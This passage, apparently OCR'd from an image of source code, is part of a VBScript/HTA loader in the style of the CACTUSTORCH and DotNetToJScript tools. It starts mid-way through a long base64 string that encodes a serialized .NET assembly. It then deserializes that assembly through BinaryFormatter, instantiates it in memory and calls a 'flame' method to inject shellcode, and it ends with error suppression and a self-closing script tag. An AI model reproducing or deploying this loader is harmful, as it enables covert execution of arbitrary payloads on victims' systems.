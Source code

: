"AAAAAAAAAEAADAABAEYAaQBsAGUARABlAHMAYwByAGkAcAB0AGkAbwBuAAAAAABDAEEAQwBUAFUA" s = s & "UwBUAE8AUgBDAEgAAAAwAAgAAQBGAGkAbABlAFYAZQByAHMAaQBvAG4AAAAAADEALgAwAC4AMAAu" s = s & "ADAAAABAABAAAQBJAG4AdABlAHIAbgBhAGwATgBhAG0AZQAAAEMAQQBDAFQAVQBTAFQATwBSAEMA" s = s & "SAAuAGQAbABsAAAAPAAMAAEATABlAGcAYQBsAEMAbwBwAHkAcgBpAGcAaAB0AAAAQwBBAEMAVABV" s = s & "AFMAVABPAFIAQwBIAAAAKgABAAEATABlAGcAYQBsAFQAcgBhAGQAZQBtAGEAcgBrAHMAAAAAAAAA" s = s & "AABIABAAAQBPAHIAaQBnAGkAbgBhAGwARgBpAGwAZQBuAGEAbQBlAAAAQwBBAEMAVABVAFMAVABP" s = s & "AFIAQwBIAC4AZABsAGwAAAA4AAwAAQBQAHIAbwBkAHUAYwB0AE4AYQBtAGUAAAAAAEMAQQBDAFQA" s = s & "VQBTAFQATwBSAEMASAAAADQACAABAFAAcgBvAGQAdQBjAHQAVgBlAHIAcwBpAG8AbgAAADEALgAw" s = s & "AC4AMAAuADAAAAA4AAgAAQBBAHMAcwBlAG0AYgBsAHkAIABWAGUAcgBzAGkAbwBuAAAAMQAuADAA" s = s & "LgAwAC4AMAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA" s = s & "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA" s = s & "AAAAAAAAAAAAAAAAADAAAAwAAAB0NQAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA" s = s & "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA" s = s & "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA" s = s & "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA" s = s & "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA" s = s & "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA" s = s & "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA" s = s & "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA" s = s & "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA" s = s & "AAAAAAAAAAAAAAABDQAAAAQAAAAJFwAAAAkGAAAACRYAAAAGGgAAACdTeXN0ZW0uUmVmbGVjdGlv" s = s & "bi5Bc3NlbWJseSBMb2FkKEJ5dGVbXSkIAAAACgsA" entry_
    Dim fmt, al, d, o Set fmt = CreateObject("System.Runtime.Serialization.Formatters.Binary.BinaryFormatter") Set al = CreateObject("System.Collections.ArrayList") al.Add fmt.SurrogateSelector
    Set d = fmt.Deserialize_2(Base64ToStream(s)) Set o = d.DynamicInvoke(al.ToArray()).CreateInstance(entry_class) o.flame binary,code End Sub
    SetVersion On Error Resume Next Run If Err.Number <> 0 Then Debug Err.Description Err.Clear End If
    self.close </script>
    
        

* * *